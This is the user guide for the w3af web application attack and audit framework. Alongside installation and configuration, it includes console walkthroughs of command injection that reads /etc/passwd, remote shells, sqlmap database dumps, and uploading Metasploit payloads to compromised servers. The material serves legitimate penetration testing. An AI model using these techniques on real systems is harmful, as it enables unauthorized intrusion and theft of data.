

w3af User Guide
Document version: 1.5
Original author: Andres Riancho
Reviewed by:
Mike Harbison
Andy Bach
May 1, 2008
Table of Contents
Introduction 3
Installation 3
Download 3
Requirements 3
w3af phases 4
Running w3af 5
Running w3af with GTK user interface 8
Plugins 10
Plugin configuration 10
Starting a scan 15
A complete session 15
A warning about discovery 18
When everything else fails... 19
w3af scripts 19
The Output 21
Complex sites 23
Exploiting 25
Advanced exploiting techniques 27
Virtual daemon 28
w3afAgent 32
More information 36
Bugs 36
Final words 37
This document is a user guide for version beta6 of the Web Application Attack and Audit Framework ( w3af ), its goal is to provide a basic overview of what the Framework is, how it works and what you can do with it.
w3af is a complete environment for auditing and attacking web applications. This environment provides a solid platform for auditing and penetration-testing.
The framework should work on all platforms supported by Python. This user guide will guide you through the installation on a Linux platform, but installation on Windows and OSX is possible and straight forward.
The framework can be downloaded from the project main page:
There are two ways to install w3af: from a release package or from SVN. Users that are just starting with the framework should use the latest package, while more advanced users should perform a SVN checkout to get the latest version of the framework.
If you downloaded the latest release and find a bug, please also perform a SVN checkout and try to reproduce it there, if you are still able to reproduce it, please report the bug with a detailed description of how to reproduce it. To report a bug please navigate to:
http://sourceforge.net/tracker/?group_id=170274&atid=853652
The framework has the following requirements:
fpconst-0.7.2
pygoogle
pywordnet
SOAPpy
pyPdf
Beautiful Soup
The first five requirements are bundled with the distribution file “w3af-<version>
.bzip2”, inside the “extlib” directory. The installation steps for this libraries are ( as root ):
cd w3af
cd fpconst-0.7.2
python setup.py install
cd ..
cd pygoogle
python setup.py install
cd ..
cd pywordnet
python setup.py install
cd ..
cd SOAPpy
python setup.py install
cd pyPdf
python setup.py install
You can also download all the libraries from the corresponding sites and install them from there, the libraries are bundled with w3af for installation ease.
Before even running w3af a user must know how the application is divided, and how plugins are going to be executed. Basically, w3af has three types of plugins: discovery , audit and attack.
Discovery plugins have only one responsibility, finding new URLs, forms, and other “injection points”. A classic example of a discovery plugin is a web spider. This plugin takes a URL as input and returns one or more injection points. When a user enables more than one plugin of this type, they work recursively: If plugin A finds a new URL in the first run, the w3af core will send that URL to plugin B. If plugin B then finds a new URL, it will be sent to plugin A. This will go on until all plugins are run and no more knowledge about the application can be found using the enabled discovery plugins.
Audit plugins take the injection points found by discovery plugins and send specially crafted data to all of them in order to find vulnerabilities. A classic example of an audit plugin is one that searches for SQL injection.
Attack plugins objective is to exploit vulnerabilities found by audit plugins. They usually return a shell on the remote server, or a dump of remote databases in case of SQL injections.
w3af has two user interfaces, the consoleUI and the gtkUi. This user guide will focus on the consoleUI, which is, at the moment of this writing much more tested and complete than the gtkUi. To fire up the consoleUI you just have to execute w3af without parameters and you will get a prompt like this one:
$ ./w3af
w3af>>>
From this prompt you will be able to configure the framework, launch scans and ultimately exploit a vulnerability. At this point you can start typing commands, the first command you have to learn is “help” (Please note that commands are case sensitive) .
w3af>>> help
The following commands are available:
help You are here. help [command] prints more specific help.
http-settings Configure the URL opener.
misc-settings Configure w3af misc settings.
plugins Enable, disable and configure plugins.
profiles List and start scan profiles.
start Start site analysis.
exploit Exploit a vulnerability.
tools Enter the tools section.
target Set the target URL.
exit Exit w3af.
w3af>>>
w3af>>> help target
Enter the target configuration. Here you will configure the target URL.
w3af>>>
The main menu commands are explained in the help that is displayed above. The internals of every menu will be seen later in this document. As you already noticed, the “help” command can take a parameter, and if available, a detailed help for that parameter will be shown, e.g. “help tools”.
Other interesting things to notice about the consoleUI are the tab completion (type 'plu' and then TAB) and the command history ( after typing some commands, navigate the history with the up and down arrows ).
To enter a configuration menu, you just have to type it's name and hit enter, you will see how the prompt changes and you are now in that context.
w3af>>> http-settings
w3af/http-settings>>>
All the configuration menus provide the following commands:
help
view
set
back
Here is a usage example of this commands in the http-settings menu:
w3af/http-settings>>> help
The following commands are available:
help You are here. help [command|parameter] prints more specific help.
set Set a parameter value.
view List all configuration parameters and current values.
back Return to previous menu.
w3af/http-settings>>> view
Parameter Value Description
========= ===== ===========
proxyPort 8080 Proxy TCP port
basicAuthDomain Set the basic authentication domain for HTTP requests
maxFileSize 400000 Indicates the maximum file size (in bytes) that w3af will GET/POST.
headersFile Set the headers filename. This file has additional headers that are added to each request.
proxyAddress Proxy IP address
maxRetrys 2 Indicates the maximum number of retries when requesting an URL.
ignoreSessCookies False Ignore session cookies
timeout 10 The timeout for connections to the HTTP server
basicAuthUser Set the basic authentication username for HTTP requests
userAgent w3af.sourceforge.netUser Agent header
basicAuthPass Set the basic authentication password for HTTP requests
cookieJarFile Set the cookiejar filename.
w3af/http-settings>>> set timeout 5
w3af/http-settings>>> view
...
timeout 5 The timeout for
connections to the HTTP server
...
To summarize, the “view” command is used to list all parameters, with their values and a description. The set command is used to change the value of a variable. Finally we can execute “back”, “.” or press CTRL+C and you will return to the previous menu. A detailed help for every configuration parameter can be obtained using “help parameter” like shown in this example:
w3af/http-settings>>> help timeout
Help for parameter timeout:
===========================
Set low timeouts for LAN use and high timeouts for slow Internet connections.
w3af/http-settings>>>
The “http-settings” and the “misc-settings” configuration menus are used to set system wide parameters that are used by the framework. All the parameters have defaults and in most cases you can leave them as they are. w3af was designed in a way that allows beginners to run it without having to learn a lot of its internals, and also flexible enough to be tunned by experts that know what they want and need to change internal configuration parameters to fulfill their task.
The framework also has a graphical user interface that you can start by executing:
./w3af -g
The graphical user interface allows you to perform all the actions that the framework offers and features a much easier and faster way to start a scan and analyze the results.
The requirements for running the graphical user interface are:
pygtk 2.0
gtk 2.12
On debian based systems you should install the “python-gtk2” package. For windows systems, you have to download all the packages by hand and install them; at the time of writing this documentation, we are testing a windows installer with all required libraries bundled. After finishing the windows installation and the development of the user interface, the w3af team is going to release a users manual for the graphical user interface.
In case you are wondering how the graphical user interface looks like, here is a screenshot:

Plugins do all the magic. The plugins will find the URLs, discover the bugs and exploit them. So now, we will learn how to configure the plugins. In a previous section I told you that w3af had three types of plugins: discovery, audit and exploit. Well, I actually lied a little because w3af has many other plugins. The complete list of plugins types is:
discovery
audit
grep
exploit
output
mangle
bruteforce
evasion
As said before, discovery plugins find new points of injection, that are later used by audit plugins to find vulnerabilities. Grep plugins analyze all page content and find vulnerabilities on pages that are requested by other plugins; for example a grep plugin will find a comment on the HTML body that has the word “password” inside it and generate a vulnerability based on it.
Exploit plugins [ab]use the vulnerabilities found in the audit phase and return something useful to the user ( remote shell, SQL table dump, a proxy, etc ).
Output plugins are the way the framework and the plugins communicate with the user, output plugins save the data to a text or html file. Debugging information is also sent to the plugins and can be saved for analysis.
Mangle plugins are a way to modify requests and responses based on regular expressions, think “sed (stream editor) for the web”.
Bruteforce plugins will bruteforce logins, they are actually part of the discovery phase.
Finally, evasion plugins try to evade simple intrusion detection rules.
The plugins are configured using the “plugins” configuration menu. Lets see how to do that:
w3af>>> plugins
w3af/plugins>>> help
The following commands are available:
help You are here. help [command] prints more specific help.
list List all available plugins.
audit Enable and configure audit plugins.
output Enable and configure output plugins.
discovery Enable and configure discovery plugins.
grep Enable and configure grep plugins.
evasion Enable and configure evasion plugins.
mangle Enable and configure mangle plugins.
bruteforce Enable and configure bruteforce plugins.
back Return to previous menu.
w3af>>>
As you may have noticed, all plugins can be configured here except the exploit plugins, we will talk about them later. The first step to take here is to know the syntax for configuring the plugins, so lets do that:
w3af/plugins>>> help audit
Enable and configure audit plugins.
Syntax: audit [config plugin1] [plugin1,plugin2 ... pluginN]
Example: audit
Result: All enabled audit plugins are listed.
Example2: audit plugin1,plugin2
Result: plugin1 and plugin2 are configured to run
Example3: audit config plugin1
Result: Enters to the plugin configuration menu.
Example4: audit all,!plugin3
Result: All audit plugins are configured to run except plugin3.
w3af/plugins>>> help list
List all available plugins.
Sintax: list {plugin type}
Example: list audit
w3af/plugins>>>
Ok, so w3af is nice enough to tell us how to use it. Now we will see how to enable two plugins and then verify that they are enabled:
w3af/plugins>>> audit xss, sqli
w3af/plugins>>> audit
Enabled audit plugins:
xss
sqli
w3af/plugins>>>
By issuing the “audit xss, sqli” command we enable the “xss” and “sqli” plugins to be runned. To see what these plugin do, we could have ran the “list” command like this to get a small description of all plugins:
w3af/plugins>>> list audit
mxInjection This plugin tests for MX injection bugs.
unSSL This plugin checks if secure content can also be fetched using http.
fileUpload This plugin uploads a file and then searches for the file inside all known directories.
xpath This plugin tests for XPATH injection bugs.
sslCertificate This plugin checks the SSL certificate validity( if https is being used ).
htaccessMethods This plugin searches for misconfigurations in the "<LIMIT>" configuration of Apache.
LDAPi This plugin tests for LDAP injection bugs.
osCommanding This plugin tests for OS Commanding bugs.
responseSplitting This plugin tests for response splitting bugs.
blindSqli This plugin tests for blind SQL injection bugs.
sqli This plugin tests for SQL injection bugs.
remoteFileInclude This plugin tests for remote file inclusion bugs.
formatString This plugin tests for format String bugs.
localFileInclude This plugin tests for local file inclusion bugs.
xss This plugin tests for XSS.
ssi This plugin tests for server side inclusion bugs.
buffOverflow This plugin tests for buffer overflow bugs.
globalRedirect This plugin tests for scripts that redirect the browser to any site.
xsrf This plugin tests for the easiest to exploit xsrf vulnerabilities.
phishingVector This plugin searches for phishing vectors.
dav This plugin uploads a file and then searches for the file inside all known directories.
preg_replace This plugin tests for unsafe usage of PHPs preg_replace.
w3af/plugins>>>
Or if the user is interested in knowing exactly what a plugin does, he can also run the “desc” command like this:
w3af>>> plugins
w3af/plugins>>> audit desc fileUpload
This plugin will try to expoit insecure file upload forms.
One configurable parameter exists:
- extensions
The extensions parameter is a comma separated list of extensions that this plugin will try to upload. Many web applications verify the extension of the file being uploaded, if special extensions are required, they can be added here.
Some web applications check the contents of the files being uploaded to see if they are really what their extension is telling. To bypass this check, this plugin uses file templates located at "plugins/audit/fileUpload/", this templates
are valid files for each extension that have a section ( the comment field in a gif file for example ) that can be replaced
by scripting code ( PHP, ASP, etc ).
After uploading the file, this plugin will try to find it on common directories like "upload" and "files" on every know directory. If the file is found, a vulnerability exists.
w3af/plugins>>>
Now we know what this plugin does, but let's check their internals:
w3af/plugins>>> audit config xss
w3af/plugin/xss>>> view
Parameter Value Description
========= ===== ===========
checkPersistent True Search persistent XSS
w3af/plugin/xss>>> set checkPersistent False
w3af/plugin/xss>>> back
w3af/plugins>>> audit config sqli
w3af/plugin/sqli>>> view
No configurable parameters.
w3af/plugin/sqli>>> back
w3af/plugins>>>
The configuration menus for the plugins also have the set command for changing the parameters values, and the view command for listing existing values. On the previous example we disabled persistent cross site scripting checks in the xss plugin, and listed the options of the sqli plugin ( it actually has no configurable parameters ).
After configuring all desired plugins the user has to set the target URL and finally start the scan. The target selection is done this way:
w3af>>> target
w3af/target>>> set target http://localhost/
w3af/target>>> back
w3af>>>
Finally, you execute “start” and the process will start all plugins.
w3af>>> start
A complete w3af session would look like this ( see the inline comments ):
$ ./w3af
w3af>>> plugins
w3af/plugins>>> output console,textFile
w3af/plugins>>> output
Enabled output plugins:
textFile
console
w3af/plugins>>> output config textFile
w3af/plugin/textFile>>> set fileName output-w3af.txt
w3af/plugin/textFile>>> set verbosity 10
w3af/plugin/textFile>>> back
w3af/plugins>>> output config console
w3af/plugin/console>>> set verbosity 0
w3af/plugin/console>>> back
All this previous commands have enabled two output plugins, console and textFile and configured them as needed.
w3af/plugins>>> discovery allowedMethods,webSpider
w3af/plugins>>> discovery
Enabled discovery plugins:
webSpider
allowedMethods
w3af/plugins>>> back
In this case, we will be running only discovery plugins. The enabled plugins are allowedMethods and webSpider .
w3af>>> target
w3af/target>>>set target http://localhost/w3af/
w3af/target>>>back
w3af>>> start
New URL found by discovery: http://localhost/w3af/responseSplitting/responseSplitting.php
New URL found by discovery: http://localhost/w3af/blindSqli/blindSqli-str.php
New URL found by discovery: http://localhost/w3af/webSpider/2.html
...
...
The URL: http://localhost/beef/hook/ has DAV methods enabled:
- OPTIONS
- GET
- HEAD
- POST
- TRACE
- PROPFIND
- PROPPATCH
- COPY
- MOVE
- LOCK
- UNLOCK
- DELETE ( is possibly enabled too, not tested for safety )
New URL found by discovery: http://localhost/w3af/globalRedirect/wargame/
New URL found by discovery: http://localhost/w3af/globalRedirect/w3af-site.tgz
After the discovery phase is finished a summary is presented to the user:
The list of found URLs is:
- http://localhost/w3af/globalRedirect/w3af.testsite.tgz
- http://localhost/beef/hook/beefmagic.js.php
- http://localhost/w3af/globalRedirect/2.php
http://localhost/w3af/webSpider/11.html
...
...
A section of the summary is the points of injection that will be used in the audit phase:
Found 78 URLs and 102 different points of injection.
The list of Fuzzable requests is:
- http://localhost/w3af/ | Method: GET
- http://localhost/w3af/responseSplitting/responseSplitting.php | Method: GET | Parameters: (header)
http://localhost/w3af/sqli/dataReceptor.php | Method: POST | Parameters: (user,firstname)
Finally the user exits the application, returning to the shell.
w3af>>> exit
w3af, better than the regular script kiddie.
$
The discovery phase is a double edged sword: use it with wisdom, and it will give you a lot of knowledge about the remote web application, use it in a greedy way and you will be waiting for hours until the discovery phase ends. Just to make things clear, the greedy way is to enable all discovery plugins ( “discovery all” ) without even knowing what you are doing or having manually browsed the web and understood the internals.
Some examples will make things clear:
“You are testing an intranet web application, the web application is huge and doesn't use any macromedia flash or javascript code”.
Recommendation : “discovery all,!spiderMan, !fingerGoogle, !fingerMSN, !fingerPKS, !MSNSpider, !googleSpider, !phishtank, !googleSafeBrowsing”.
Reason: Spiderman should only be used when webSpider can't find some links. The fingerGoogle, fingerMSN and fingerPKS plugins discover mail addresses from search engines, if this is an intranet application, the addresses put in this site wont be available in search engines because they never were indexed. MSNSpider and googleSpider find URLs using search engines, like the ones before, they are useless because search engines don't index private pages. phishtank and googleSafeBrowsing should be enabled because they search for phishing sites, and like the ones before them, private sites aren't indexed in this systems.
“You are testing a web application over the internet, the web application is huge and doesn't use any macromedia flash or javascript code”.
Recommendation : “discovery all,!spiderMan, !wordnet , !googleSets”.
Reason: Spiderman should only be used when webSpider can't find some links. The wordnet and googleSets plugins are two plugins that take a long time to run over the internet so it's a good idea to disable them.
“You are testing a web application over the internet, the web application is huge and has macromedia flash or javascript code. You also know that the application doesn't implement any web services”.
Recommendation : “discovery all, !wordnet , !googleSets, !wsdlFinder”.
Reason: The wordnet and googleSets plugins are two plugins that take a long time to run over the internet so it's a good idea to disable them. Regarding wsdlFinder, if we already know that no web services exist, why look for them using it ? .
“You are testing a web application over the internet, the web application is huge, you really need to know all the links and functionality of the site and you don't care waiting.”.
Recommendation : “discovery all” .
Reason: You really need to get a lot of knowledge about the site and don't care if it takes a complete day.
So, you enabled only the recommended plugins in the discovery phase, you started the framework one hour ago, the discovery is still running and doesn't find anything. When you find yourself in this situation you have two options, waiting for w3af to finish or hitting ctrl+c to finish the discovery and start with the audit phase.
You should also remember that if you are saving the debug information to a text file you can open a new terminal and run a “tail -f w3af-output-file.txt” to see what w3af is really doing.
While developing w3af, I realized that I needed a fast way to execute the same steps over and over, so the script functionality was born. w3af can run a script file using the “-s” argument. Script files are text files with one command on each line. An example script file would look like this:
$ head scripts/script-osCommanding.w3af
# This is the osCommanding demo:
plugins
output console,textFile
output
output config textFile
set fileName output-w3af.txt
set verbosity 10
back
To run this script you would execute “./w3af -s scripts/script-osCommanding.w3af” , the output would look just like if you typed every command by hand in the console:
$ ./w3af -s scripts/script-osCommanding.w3af
w3af>>> plugins
w3af/plugins>>> audit osCommanding
w3af/plugins>>> audit
Enabled audit plugins:
osCommanding
w3af/plugins>>> back
w3af>>> target
w3af/target>>> set target http://localhost/w3af/osCommanding/vulnerable.php?command=f0as9
w3af/target>>> back
w3af>>> start
The list of found URLs is:
- http://localhost/w3af/osCommanding/vulnerable.php
Found 1 URLs and 1 different points of injection.
The list of Fuzzable requests is:
- http://localhost/w3af/osCommanding/vulnerable.php | Method: GET | Parameters: (command)
Starting osCommanding plugin execution.
OS Commanding was found at: http://localhost/w3af/osCommanding/vulnerable.php . Using method: GET. The data sent was: command=%2Fbin%2Fcat+%2Fetc%2Fpasswd The vulnerability was found in the request with id 2.
w3af>>> exploit
w3af/exploit>>> exploit osCommandingShell
osCommanding exploit plugin is starting.
The vulnerability was found using method GET, tried to change the method to POST for exploiting but failed.
Vulnerability successfully exploited.
Execute "exitPlugin" to get out of the remote shell. Commands typed in this menu will be runned on the remote web server.
w3af/exploit/osCommandingShell>>> ls
vulnerable.php
vulnerable.php~
w3af/exploit/osCommandingShell>>>
w3af/exploit>>>
w3af>>>
Be a good boy and contribute with some lines of code.
$
All the output of w3af is managed by the output plugins. Each output plugin will write in a different format ( txt, html, etc ), for example the textFile plugin writes all output to the output-w3af.txt file by default. The configuration of this plugins is done just like other plugins, as seen before:
$ ./w3af
w3af>>> plugins
w3af/plugins>>> output console,textFile
w3af/plugins>>> output
Enabled output plugins:
textFile
console
w3af/plugins>>> output config textFile
w3af/plugin/textFile>>> set fileName output-w3af.txt
w3af/plugin/textFile>>> set verbosity 10
w3af/plugin/textFile>>> back
w3af/plugins>>> output config console
w3af/plugin/console>>> set verbosity 0
w3af/plugin/console>>> back
This will configure the textFile plugin to output all messages, including the debugging information ( see “set verbosity 10” ) to the “output-w3af.txt” file. Here is an example of what is written to this file:
[ Tue May 15 14:14:49 2007 - debug ] Called _audit()
[ Tue May 15 14:14:49 2007 - information ] Starting osCommanding plugin execution.
[ Tue May 15 14:14:49 2007 - debug ] osCommanding plugin is testing: http://localhost/w3af/osCommanding/vulnerable.php
[ Tue May 15 14:14:49 2007 - debug ] Threading is disabled.
[ Tue May 15 14:14:49 2007 - debug ] GET http://localhost/w3af/osCommanding/vulnerable.php?command=%2Fbin%2Fcat+%2Fetc%2Fpasswd returned HTTP code "200"
[ Tue May 15 14:14:49 2007 - debug ] Found the file echoed by the command.
[ Tue May 15 14:14:49 2007 - vulnerability ] OS Commanding was found at: http://localhost/w3af/osCommanding/vulnerable.php . Using method: GET. The data se
[ Tue May 15 14:14:49 2007 - debug ] Written session to disk. This is done only after 5 calls to save().
Output plugins also handle the logging of HTTP requests and responses, every plugin handles this data in a different way, for example, the textFile plugin writes requests and responses to a file, while the htmlFile plugin disregards the data and simply does nothing with it. An example of a HTTP log written by the textFile follows:
======Request 5 - Tue May 15 14:14:49 2007======
GET http://localhost/w3af/osCommanding/vulnerable.php?command=ls HTTP/1.1
Host: localhost
Accept-encoding: identity
Accept: */*
User-agent: w3af.sourceforge.net
======Response 5 - Tue May 15 14:14:49 2007======
HTTP/1.1 200 OK
date: Tue, 15 May 2007 17:14:49 GMT
transfer-encoding: chunked
x-powered-by: PHP/5.2.0-10
content-type: text/html; charset=UTF-8
server: Apache/2.2.3 (Debian) mod_python/3.2.10 Python/2.4.4 PHP/5.2.0-10 mod_perl/2.0.2 Perl/v5.8.8
asdljasndlansdlaknsdlaknsd
vulnerable.php
vulnerable.php~
asdajlsdkjalsdkj
======
Just in case you are wondering, all messages sent by the plugins and the framework are sent to ALL enabled plugins, so if you have enabled textFile and htmlFile output plugins, both will log a vulnerability found by an audit plugin.
Some sites use embedded objects, like macromedia flash and java applets, that the browser renders to the user. Because of the inability of the framework to get any information out of those objects, a script called spiderMan was born. This script will run a HTTP proxy so the user can navigate the target site through it; during this process the plugin will extract information from the requests and responses.
A simple example will clarify things, let's suppose that w3af is auditing a site and can't find any links on the main page. After a closer interpretation of the results by the user, it is clear that the main page has a java applet menu where all the other pages are linked. The user runs w3af once again and now activates the spiderMan plugin, navigates the site manually using the browser and the spiderman proxy. When the user has finished his browsing, w3af will continue with all the hard auditing work.
The spiderMan plugin can be used when javascript, flash, java applets or any other browser side technology is present.
This is a sample spiderMan plugin run:
w3af>>> plugins
w3af/plugins>>> discovery spiderMan
w3af/plugins>>> discovery
Enabled discovery plugins:
spiderMan
w3af/plugins>>> back
w3af>>> target
w3af/target>>> set target http://localhost/w3af/fileUpload/
w3af/target>>> back
w3af>>> start
To exit spiderMan plugin please navigate to http://w3af/spiderMan?terminate or press ctrl+c .
spiderMan running on 127.0.0.1:8998 .
spiderMan plugin has been ended by user request.
Now the user configures the browser to use the 127.0.0.1:8998 proxy and navigates the target site, after that he hits ctrl+c and exits the spiderMan. The results are shown:
New URL found by discovery: http://localhost/w3af/test
New URL found by discovery: http://localhost/favicon.ico
New URL found by discovery: http://localhost/w3af/
New URL found by discovery: http://localhost/w3af/img/w3af.png
New URL found by discovery: http://localhost/w3af/xss-forms/test-forms.html
New URL found by discovery: http://localhost/w3af/xss-forms/dataReceptor.php
The list of found URLs is:
- http://localhost/w3af/fileUpload/
- http://localhost/w3af/test
- http://localhost/w3af/xss-forms/dataReceptor.php
- http://localhost/w3af/
- http://localhost/w3af/img/w3af.png
- http://localhost/w3af/xss-forms/test-forms.html
- http://localhost/w3af/fileUpload/uploader.php
- http://localhost/favicon.ico
Found 8 URLs and 8 different points of injection.
The list of Fuzzable requests is:
- http://localhost/w3af/fileUpload/ | Method: GET
- http://localhost/w3af/fileUpload/uploader.php | Method: POST | Parameters: (MAX_FILE_SIZE,uploadedfile)
- http://localhost/w3af/test | Method: GET
- http://localhost/favicon.ico | Method: GET
- http://localhost/w3af/ | Method: GET
- http://localhost/w3af/img/w3af.png | Method: GET
- http://localhost/w3af/xss-forms/test-forms.html | Method: GET
- http://localhost/w3af/xss-forms/dataReceptor.php | Method: POST | Parameters: (user,firstname)
Starting sqli plugin execution.
w3af>>>
Two ways of exploiting a vulnerability exist, the first one uses the vulnerabilities found by the audit phase and the second one requires the user to enter the vulnerability parameters, this way is called fastexploit, while the first one is just called exploit.
Let's see an example of the first way of exploiting a vulnerability with w3af:
w3af>>> start
The list of found URLs is:
- http://localhost/w3af/osCommanding/vulnerable.php
Found 1 URLs and 1 different points of injection.
The list of Fuzzable requests is:
- http://localhost/w3af/osCommanding/vulnerable.php | Method: GET | Parameters: (command)
Starting osCommanding plugin execution.
OS Commanding was found at: http://localhost/w3af/osCommanding/vulnerable.php . Using method: GET. The data sent was: command=%2Fbin%2Fcat+%2Fetc%2Fpasswd The vulnerability was found in the request with id 2.
w3af>>> exploit
w3af/exploit>>> exploit osCommandingShell
osCommanding exploit plugin is starting.
The vulnerability was found using method GET, tried to change the method to POST for exploiting but failed.
Vulnerability successfully exploited.
Execute "exitPlugin" to get out of the remote shell. Commands typed in this menu will be runned on the remote web server.
w3af/exploit/osCommandingShell>>> ls
vulnerable.php
vulnerable.php~
w3af/exploit/osCommandingShell>>> whoami
apache
w3af/exploit/osCommandingShell>>>
w3af/exploit>>>
w3af>>>
The second way is to use fastexploit. This method should be used when the user has found a vulnerability manually and wants to exploit it using the framework. Here is an example of a fastexploit run:
w3af>>> exploit
w3af/exploit>>> exploit config sqlmap
w3af/plugin/sqlmap>>> set url http://localhost/w3af/blindSqli/blindSqli-integer.php
w3af/plugin/sqlmap>>> set injvar id
w3af/plugin/sqlmap>>> set data id=1
w3af/plugin/sqlmap>>> back
w3af/exploit>>> fastexploit sqlmap
sqlmap coded by inquis <bernardo.damele@gmail.com> and belch <daniele.bellucci@gmail.com>
SQL injection could be verified, trying to create the DB driver.
Execute "exitPlugin" to get out of the remote shell. Commands typed in this menu will be runned on the remote web server.
w3af/exploit/sqlmap>>> dump agenda w3af_test
Database: w3af_test
Table: agenda
[2 entries]
+---------------+----+--------+----------+-----------------+
| direccion | id | nombre | telefono | email |
+---------------+----+--------+----------+-----------------+
| direccion 123 | 1 | apr | 52365786 | acho@c.com |
| direccion 333 | 2 | vico | 47998123 | vTro@c.com |
+---------------+----+--------+----------+-----------------+
w3af/exploit/sqlmap>>>
The framework implements two highly advanced exploiting techniques that allow the user to keep escalating privileges into the remote network. Both of this techniques are used once the framework is able to execute remote operating system commands, this is the case of (for example) osCommanding, remoteFileIncludeShell and davShell attack plugins. These exploiting techniques are:
Virtual daemon, allows you to use metasploit payloads to exploit the server that supports a vulnerable web application.
w3afAgent, which creates a tunnel between the compromised server and w3af, the allow the user to route TCP connections through the remote server.
Both of them are simple to use and configure using this guide. These features are under heavy development and are under no means stable, use them at your on risk.
As said before, this feature allows you to use metasploit payloads to exploit the server that supports a vulnerable web application. To use this feature you must have a working installation of the metasploit framework version 3.0 or greater; you can get it for free at www.metasploit.com , the installation and configuration of MSF is out of the scope of this document.
To be able to use the virtual daemon you will need to run the following command in order to copy the w3af metasploit module into the MSF directory:
./w3af -i /home/jdoe/tools/msf/
Where “/home/jdoe/tools/msf/” is the directory where the user “jdoe” installed Metasploit. In case you are interested, this is just a fancy shortcut for “cp core/controllers/vdaemon/w3af_vdaemon.rb /home/user/tools/msf/modules/exploits/unix/misc/”. Once this has been done, the user can start using the virtual daemon feature, before going through an example to see how to use the feature, we will make a summary of the steps that will happened during the exploitation:
w3af finds a vulnerability that allows remote command execution
The user exploits the vulnerability and starts the virtual daemon
The user starts the metasploit framework
The user configures the w3af module inside MSF and executes it
w3af module inside MSF will connect to the virtual daemon that is listening on localhost
MSF will send the payload selected by the user to the virtual daemon
The virtual daemon will create a PE(portable executable) or an ELF(executable and linkable format) file depending on the remote operating system, and using the exploited vulnerability it will upload and execute the payload in the remote server
The process of uploading the file to the remote server depends on the remote operating system, the privileges of the user running w3af and the local operating system; but in most cases the following happends:
w3af sends a small executable to the remote server to perform an extrusion scan.
w3af sniffs on the configured interface ( misc-settings -> interface ) for packets that arrive on the expected ports in order to verify outgoing firewall rules on the remote network
If a TCP port is found to be allowed in the remote firewall, w3af will try to run a server on that port and make a reverse connection from the compromised host in order to download the PE/ELF generated file. If no TCP ports are enabled, w3af will send the ELF/PE file to the remote server using several calls to the “echo” command, which is rather slow, but should always work because it's an in-band transfer method.
The payload runs in the remote server and possibly connects back to the metasploit framework, that will handle the rest of the exploitation.
Now that we know the theory, let's see an example of what this feature can do:
$ ./w3af
w3af>>> plugins
w3af>>> plugins
w3af/plugins>>> audit osCommanding
w3af/plugins>>> audit
Enabled audit plugins:
osCommanding
w3af/plugins>>> back
w3af>>> target
w3af/target>>> set target http://172.16.1.128/os.php?cmd=f00
w3af/target>>> back
w3af>>> start
The list of found URLs is:
- http://172.16.1.128/os.php
Found 1 URLs and 1 different points of injection.
The list of Fuzzable requests is:
- http://172.16.1.128/os.php | Method: GET | Parameters: (cmd)
Starting osCommanding plugin execution.
OS Commanding was found at: http://172.16.1.128/os.php . Using method: GET. The data sent was: cmd=type+%25SYSTEMROOT%25%5Cwin.ini The vulnerability was found in the request with id 7.
w3af>>> exploit
w3af/exploit>>> exploit osCommandingShell
osCommanding exploit plugin is starting.
The vulnerability was found using method GET, tried to change the method to POST for exploiting but failed.
Vulnerability successfully exploited.
Execute "exitPlugin" to get out of the remote shell. Commands typed in this menu will be runned on the remote web server.
w3af/exploit/osCommandingShell>>> start vdaemon
Virtual daemon service is running on port 9091, use metasploit's w3af_vdaemon module to exploit it.
w3af/exploit/osCommandingShell>>>
Nothing special for now, just added the new “start vdaemon” command. With this w3af run we have covered items 1. and 2. of the theory. The next step is to configure the MSF module and run it; my preferred way is to use metasploit's web interface “msfweb”. The first step is to click on the “Exploit” button on the main menu, a small window will appear, there you should search for w3af and then select the exploit named: “w3af virtual daemon exploit”. Some important points to have in mind while configuring the w3af agent virtual daemon module inside MSF:
The target is of course the remote operating system you are exploiting
VNC payloads don't seem to work
RHOST parameter indicates the IP address of the server you are exploiting
LHOST is your public IP address
LPORT is a port where the remote web server can connect to (when using reverse connect payloads) or you can connect to ( when using bind payloads )
The w3af module inside metasploit will connect to localhost:9091 and do all the payload transfer, this parameters can't be configured and must not be confused with RHOST/LHOST and LPORT
Once it has been configured, we can click on “Launch Exploit” to start the process, this is what we will see in the w3af console:
w3af/exploit/osCommandingShell>>>
Please wait some seconds while w3af performs an extrusion scan.
The extrusion test failed, no reverse connect transfer methods can be used. Trying inband echo transfer method.
Error: The user running w3af can't sniff on the specified interface. Hints: Are you root? Does this interface exist?
Successfully transfered the MSF payload to the remote server.
Successfully executed the MSF payload on the remote server.
The last messages are printed when you run w3af as a normal user, the reason is simple, when you run w3af as a user you can't sniff and therefore can't perform a successful extrusion scan. A successful extrusion scan would look like:
Please wait some seconds while w3af performs an extrusion scan.
ExtrusionServer listening on interface: eth1
Finished extrusion scan.
The remote host: "172.10.10.1" can connect to w3af with these ports:
- 25/TCP
- 80/TCP
- 53/TCP
- 1433/TCP
- 8080/TCP
- 53/UDP
- 69/UDP
- 139/UDP
- 1025/UDP
The following ports are not bound to a local process and can be used by w3af:
- 25/TCP
- 53/TCP
- 1433/TCP
- 8080/TCP
